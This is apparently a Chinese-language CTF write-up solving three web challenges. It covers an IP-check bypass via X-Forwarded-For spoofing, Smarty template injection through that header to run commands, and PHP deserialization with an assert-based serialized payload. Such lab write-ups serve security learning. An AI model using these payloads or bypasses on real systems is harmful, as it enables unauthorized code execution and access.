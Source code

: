 ## [MRCTF2020]PYWebsite

打开是一个网页，要求输入授权码获取flag

![image-20210825111740395](https://i0.hdslb.com/bfs/album/e0735bcaf220bc8c73bda74cb18e298c51a3d145.png)

但是授权码要付款，但是付款是不可能付款的了

查看源码

![image-20210825111907764](https://i0.hdslb.com/bfs/album/03736764fd68e09c14505649168a0c7a2623cf65.png)

发现有一个flag.php。

打开看看

![image-20210825112007217](https://i0.hdslb.com/bfs/album/bb33a56c9482b3181978f2c67e6a74f15730bde2.png)

这里可以看到要获取flag是要验证授权码的，但是

这里说了除了购买者和自己，那不是可以用xff或者client-ip绕过吗？

直接xff。

![image-20210825112352045](https://i0.hdslb.com/bfs/album/93b9a5de4fe9da06f0453cd9a58b88be4108a446.png)

## [CISCN2019 华东南赛区]Web11

打开容器

![image-20210825112802960](https://i0.hdslb.com/bfs/album/aab2327b017bb513109474189634e6fb8519d149.png)

发现题目有提示到Build With Smarty，猜测是ssti类题目，又看到Xff。

直接试试

![image-20210825113046009](https://i0.hdslb.com/bfs/album/be028b552f41aa9494681de12128607d13584a99.png)

可以发现是ip是可控的

尝试执行命令

![image-20210825113212149](https://i0.hdslb.com/bfs/album/057725b232ee80eb5d1718a5a1a53f9f9251b1f7.png)

可以执行，但是没有发现flag

猜测在根目录下

![image-20210825113334181](https://i0.hdslb.com/bfs/album/ce8176b2ea59f3f16699e3ccfa988fbd19e4d947.png)

直接读取

![image-20210825113412479](https://i0.hdslb.com/bfs/album/33f3a3756d14cc71ecf4860ea12bc945a22e44c6.png)

## [NPUCTF2020]ReadlezPHP

<img src="https://i0.hdslb.com/bfs/album/74f72c3a6d128d36df869f285e7386708a995d7b.png" alt="image-20210825114037896" style="zoom: 50%;" />

查看源码

![image-20210825114214527](https://i0.hdslb.com/bfs/album/eddc604e99980744582f406ccdae612d6544945d.png)

发现了一个time.php

查看一下

拿到代码

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

看到unserialize，猜测是考反序列化

看到$b($a)，这里就是利用点了

尝试写函数

```php
<?php
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "phpinfo()";
        $this->b = "system";
    }

}
$c = new HelloPhp();

echo serialize($c);
?>
```

但是system函数好像被ban了。

但是我们可以改用assert函数

```php
<?php
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "phpinfo()";
        $this->b = "assert";
    }

}
$c = new HelloPhp();

echo serialize($c);
?>//O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```

![image-20210825115542802](https://i0.hdslb.com/bfs/album/56c48da3d17dbb5521da0a7651aee624a415bb63.png)

执行成功，发现flag居然phpinfo里面

![image-20210825115705894](https://i0.hdslb.com/bfs/album/da4cbf9897255fe410278d1a5adf0fa47044107a.png)

